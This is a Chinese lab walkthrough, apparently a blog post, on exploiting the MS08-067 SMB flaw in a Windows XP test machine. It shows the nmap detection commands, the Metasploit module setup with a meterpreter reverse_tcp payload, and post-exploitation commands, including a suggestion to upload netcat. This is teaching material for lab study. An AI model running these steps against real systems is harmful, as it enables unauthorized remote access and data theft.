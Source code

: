```yaml
---
layout:     post
title:      MS08-067远程溢出漏洞
subtitle:   CVE-2008-4250
date:       2018-05-09
author:     Waldo
header-img: img/post-bg-swift2.jpg
catalog: true
tags:
    - web安全 
    
---
```


[使用i春秋环境实验](https://www.ichunqiu.com/vm/61591/1)
[使用i春秋环境实验](https://www.ichunqiu.com/vm/61591/1)
#### 实验环境

*   操作机 ：`Kali 2017`

*   操作机IP：`172.16.11.2`

*   目标机：`Windows XP S2 中文版`

*   目标机IP：`172.16.12.2`

#### 实验目的

*   认知Windows远程溢出漏洞的危害

*   知悉MS08-067漏洞的发现和验证过程

*   学习Metasploit工具的使用

#### 实验工具

`Nmap`:端口扫描探测工具，用于探测端口开放情况，本次使用其端口扫描和漏洞扫描功能

`mestasploit`：开源的渗透测试框架软件、综合型漏洞利用工具，本次实验使用其漏洞利用模块、meterpreter组件

#### 实验内容

**漏洞原理简述**

MS08-067 漏洞是通过MSRPC over SMB通道调用Server程序中的NEtPathCanonicalize函数时触发的。

NetPathCanonicalize 函数在远程访问其他主机时，会调用NetpwPathCanonicalize函数，对远程访问的路径进行规范化，而在NetpwPathCanonicalize函数中发生了栈缓冲区内存错误，造成可被利用实施远程代码执行。

#### 实验步骤

#### 第1步 漏洞探测

打开Kali终端，使用Nmap对目标机开放端口进行扫描

```
nmap  -sV -Pn 172.16.12.2

```

![nmap_sV2.png](https://upload-images.jianshu.io/upload_images/7216746-ef16014c013d64e5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

目标机开放了`135``139``445``3389`端口，且目标机系统为Windows_XP。一想到XP或者2003系统的`445`端口开放，我们就能想到轰动一时的ms08-067。

我们使用nmap的漏洞扫描脚本查看漏洞是否可用

```
nmap -sV -Pn -p 445 --script smb-vuln-ms08-067.nse 172.16.12.2

```

![nmap_vul.png](https://upload-images.jianshu.io/upload_images/7216746-8f8f880f2c3eb72a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

扫描结果`VULNERABLE`,可以利用

> nmap漏扫脚本目录：/usr/share/nmap/script/ 可自行查看其它脚本

#### 第2步 漏洞利用

终端内输入`msfconsole`打开 metasploite 命令行客户端，使用`search`命令查找ms08-067的漏洞利用模块

```
search ms08-067

```

使用`use`命令选择我们要使用的利用模块

![msf_use.png](https://upload-images.jianshu.io/upload_images/7216746-2b7ab8ee7dbdde76.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

在运行该模块之前，一般需要设置相关选项，我们使用`show options`查看配置信息

![msf_show01.png](https://upload-images.jianshu.io/upload_images/7216746-19486d7460906191.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


需要设置目标地址，设置命令：

```
set RHOST 172.16.12.2

```

之后，选择载荷`payload`，也就是`shellcode`,此处我们选择回连至控制端shell的payload

```
set payload  windows/meterpreter/reverse_tcp

```

当然载荷也需要进行配置，所以我们选择渗透所用的载荷后，同样使用`show options`查看配置信息

![show.png](https://upload-images.jianshu.io/upload_images/7216746-56f66480eac11959.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

配置中缺少本地主机 RHOST，设置一下

```
set LHOST 172.16.11.2

```

MS08-067 针对不同的系统可以选择不同的`target`,使用命令`show targets`可以看见支持的系统

![targets.png](https://upload-images.jianshu.io/upload_images/7216746-9c8e4fe05e1289ac.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

我们选择此次目标机的系统，编号10 `set target 10`

完成配置后，运行`exploit`,开始执行漏洞利用模块

![exploit.png](https://upload-images.jianshu.io/upload_images/7216746-e1e2065df8d45bbd.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

成功获取来自目标主机的Session会话

#### 第3步：Meterpreter常用命令

我们已经成功的获取Session会话了，接下来，我们使用`meterpreter`的一些常用基本功能

**`sysinfo`**

使用`sysinfo`命令可以查看目标系统的基本信息

![sysinfo.png](https://upload-images.jianshu.io/upload_images/7216746-abfed7fe564ce727.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

**`route`**

`route`命令用于显示目标主机的路由信息，通常用来探测目标机的网络情况，有助于网络拓扑的构建

![route.png](https://upload-images.jianshu.io/upload_images/7216746-d307bbf14568cbd2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

**`upload` / `download`**

Meterpreter的`upload`和`download`命令可以上传文件到目标机器上，或下载文件至本地 （图中1.txt为自己新建的文件，内容任意）

![download.png](https://upload-images.jianshu.io/upload_images/7216746-d98c44ec1cbc70eb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

> 思考：利用上传我们可以干啥？比如上传netcat.exe文件

**`shell`**

`shell` 命令用于获取一个可以交互的shell，方便执行系统命令

![shell.png](https://upload-images.jianshu.io/upload_images/7216746-4a2e8fc7d5da3556.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

> 思考: 结合上传我们可以做很多有意思的事

#### 实验结果分析与总结

通过本次实验，我们学习了从发现漏洞、到验证漏洞、再到利用漏洞这一整个过程，并初步学习了Metasploit这一工具的使用。后续我们会进一步探索其他漏洞，结合实例去学习MSF后渗透模块的知识

#### 思考

*   如果目标机的扫描结果是Win7系统，并且修补了MS08-067漏洞，该怎样去做？

*   发现目标开启了3389，我们还有途径？

